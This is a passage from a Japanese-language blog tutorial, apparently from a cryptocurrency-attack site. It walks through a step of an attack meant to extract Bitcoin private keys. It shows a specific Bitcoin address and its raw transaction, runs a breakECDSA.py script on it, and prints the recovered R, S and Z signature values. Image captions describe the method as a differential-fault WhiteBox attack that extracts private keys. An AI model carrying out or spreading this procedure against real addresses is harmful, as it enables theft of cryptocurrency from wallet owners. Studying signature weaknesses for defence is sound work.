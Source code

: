

<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2>攻撃に備えて RawTX を準備する</h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2></h2>



<blockquote class="wp-block-quote">
<p><strong><a href="https://btc1.trezor.io/address/1A1DUHhe6ENKxj4Qebs5Xs63pfWwRQazsY" target="_blank" rel="noreferrer noopener">1A1DUHhe6ENKxj4Qebs5Xs63pfWwRQazsY</a></strong></p>



<figure class="wp-block-embed"><div class="wp-block-embed__wrapper">
https://btc1.trezor.io/tx/60d6685d9945ee4037ac6621136e98b53bc97cf71bf2b45f9b93086eebf4a499
</div></figure>
</blockquote>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/11/image-12-1024x142.png" alt="Eli Biham と Adi Shamir の研究スキームに従って差分エラーを使用して Bitcoin に WhiteBox Attack を実装し、秘密鍵を抽出します。" class="wp-image-1577"/></figure>



<pre class="wp-block-code"><code>RawTX = 0100000001a60ae2965c16c0a72bb764ec4f6f0dc6acfd3af3f49a73c06ae48ddfe4a7b76b020000006a473044022015e3f8b110a2baf09ddcce139644888bda303cd4d0a37c872e5faceb57abff0102202d2ca770322bfad7a32ae2568869512f71b8c40a561a7109a54f2799953342e3012102ae4a7601c546fef42deb70516d41645dc58613689754936efdd4850e186d8320ffffffff019e020000000000001976a914e94a23147d57674a7b817197be14877853590e6e88ac00000000
</code></pre>



<h2>ここで、すべての脆弱なトランザクションからすべての R、S、Z 値を取得する必要があります</h2>



<p>breakECDSA.py スクリプトを使用してみましょう</p>



<pre class="wp-block-code"><code>python2 breakECDSA.py 0100000001a60ae2965c16c0a72bb764ec4f6f0dc6acfd3af3f49a73c06ae48ddfe4a7b76b020000006a473044022015e3f8b110a2baf09ddcce139644888bda303cd4d0a37c872e5faceb57abff0102202d2ca770322bfad7a32ae2568869512f71b8c40a561a7109a54f2799953342e3012102ae4a7601c546fef42deb70516d41645dc58613689754936efdd4850e186d8320ffffffff019e020000000000001976a914e94a23147d57674a7b817197be14877853590e6e88ac00000000</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/11/image-14-1024x281.png" alt="Eli Biham と Adi Shamir の研究スキームに従って差分エラーを使用して Bitcoin に WhiteBox Attack を実装し、秘密鍵を抽出します。" class="wp-image-1581"/></figure>



<pre class="wp-block-code"><code>R = 0x15e3f8b110a2baf09ddcce139644888bda303cd4d0a37c872e5faceb57abff01
S = 0x2d2ca770322bfad7a32ae2568869512f71b8c40a561a7109a54f2799953342e3
Z = 0x793c00bdb7c96e19cb2670f3aec5369558b64f0e12645af070d94c2fc06db6ed</code></pre>
